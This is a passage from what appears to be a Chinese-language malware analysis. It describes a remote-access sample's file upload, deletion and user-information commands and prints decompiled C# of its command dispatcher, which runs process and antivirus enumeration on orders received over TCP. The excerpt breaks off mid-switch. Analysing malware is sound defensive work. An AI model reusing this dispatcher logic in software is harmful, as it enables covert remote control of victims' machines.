    另外，`dlrarhsivaimage_info()`這個method主要是看指定的圖片的一些相關資訊並且把該檔案上傳到某個地方，除此之外，還可以做到刪除檔案、上傳檔案、儲存檔案、查看user資訊等等，所有的command可以查看`dlrarhsivasee_responce()`這個method，裡面有紀錄所有遇到不同的command會執行對應的method(共有25個，詳細source code如下)
    :::spoiler
    ```csharp!
    // dlrarhsiva.MLREDM
    // Token: 0x06000018 RID: 24 RVA: 0x00002EB8 File Offset: 0x000010B8
    private void dlrarhsivasee_responce()
    {
        if (!this.dlrarhsivaiswitch)
        {
            this.dlrarhsivaiswitch = true;
            this.dlrarhsivanetStream = this.dlrarhsivaCMD.dlrarhsivaNS(this.dlrarhsivatcpsck);
            this.dlrarhsivacapScreen = false;
            while (this.dlrarhsivais_working)
            {
                MLREDM.<>c__DisplayClasse CS$<>8__locals1 = new MLREDM.<>c__DisplayClasse();
                CS$<>8__locals1.<>4__this = this;
                CS$<>8__locals1.switchType = this.dlrarhsivaget_command();
                if (CS$<>8__locals1.switchType == null)
                {
                    this.dlrarhsivais_working = false;
                    break;
                }
                this.dlrarhsivareqCnls = false;
                string text = CS$<>8__locals1.switchType[0].ToLower();
                if (text.Split(new char[]
                {
                    '-'
                }).Length > 1)
                {
                    text = "dlrarhsiva-" + text.Split(new char[]
                    {
                        '-'
                    })[1];
                }
                else
                {
                    text = "dlrarhsiva-" + text;
                }
                string text2 = text;
                switch (text2)
                {
                case "dlrarhsiva-procl":
                    this.dlrarhsivafunStarter = delegate()
                    {
                        this.dlrarhsivalist_processes("procl");
                    };
                    this.dlrarhsivafunThread = new Thread(this.dlrarhsivafunStarter);
                    this.dlrarhsivafunThread.Start();
                    break;
                case "dlrarhsiva-getavs":
                    this.dlrarhsivafunStarter = delegate()
                    {
                        this.dlrarhsivalist_processes("getavs");
                    };
                    this.dlrarhsivafunThread = new Thread(this.dlrarhsivafunStarter);
                    this.dlrarhsivafunThread.Start();
                    break;
                case "dlrarhsiva-thumb":
                    this.dlrarhsivaimage_info(CS$<>8__locals1.switchType[1]);
                    break;
                case "dlrarhsiva-putsrt":
                    this.dlrarhsivaload_app();